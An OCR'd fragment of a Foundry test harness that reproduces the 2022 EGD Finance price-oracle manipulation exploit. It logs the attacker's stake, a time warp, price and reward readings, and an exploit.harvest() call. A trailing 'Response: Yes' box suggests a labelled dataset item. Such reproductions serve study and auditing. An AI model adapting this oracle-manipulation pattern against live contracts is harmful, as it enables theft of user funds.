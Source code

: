 │         console.log("Tx: 0x4a66d01a017158ff38d6a88db98ba78435c606be57ca6df36033db4d9514f9f8");                                                                                                                                                       │
│         console.log("Attacker Stake 100 USDT to EGD Finance");                                                                                                                                                                                       │
│                                                                                                                                                                                                                                                      │
│         exploit.stake();                                                                                                                                                                                                                             │
│         vm.warp(1659914146); // block.timestamp = 2022-08-07 23:15:46(UTC)                                                                                                                                                                           │
│                                                                                                                                                                                                                                                      │
│         console.log("-------------------------------- Start Exploit ----------------------------------");                                                                                                                                            │
│         emit log_named_decimal_uint("[Start] Attacker USDT Balance", IERC20(usdt).balanceOf(address(this)), 18);                                                                                                                                     │
│         emit log_named_decimal_uint("[INFO] EGD/USDT Price before price manipulation", IEGD_Finance(EGD_Finance).getEGDPrice(), 18);                                                                                                                 │
│         emit log_named_decimal_uint("[INFO] Current earned reward (EGD token)", IEGD_Finance(EGD_Finance).calculateAll(address(exploit)), 18);                                                                                                       │
│         console.log("Attacker manipulating price oracle of EGD Finance...");                                                                                                                                                                         │
│                                                                                                                                                                                                                                                      │
│         exploit.harvest();                                                                                                                                                                                                                           │
│                                                                                                                                                                                                                                                      │
│         console.log("-------------------------------- End Exploit ----------------------------------");                                                                                                                                              │
│         emit log_named_decimal_uint("[End] Attacker USDT Balance", IERC20(usdt).balanceOf(address(this)), 18);                                                                                                                                       │
│     }                                                                                                                                                                                                                                                │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── Response ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ Yes                                                                                                                                                                                                                                                  │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯